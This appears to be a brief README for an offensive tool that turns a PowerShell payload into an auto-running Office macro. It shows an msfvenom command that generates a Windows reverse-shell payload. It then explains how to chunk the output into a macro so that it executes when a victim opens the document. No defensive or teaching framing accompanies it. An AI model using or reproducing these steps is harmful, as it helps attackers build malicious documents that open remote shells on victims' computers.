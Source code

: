 # Menu

**Office Macro Maker**

This script is setup to break up larger payloads like a msvfenom powershell payload.
`msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -f psh-cmd`

When this prints out you can take the powershell command and paste it into the `Str` variable.
This will then chunk the data into a office macro compatible format and also add in a couple other options.

When all is done you can copy paste the entire output into macros and it should execute once opened.
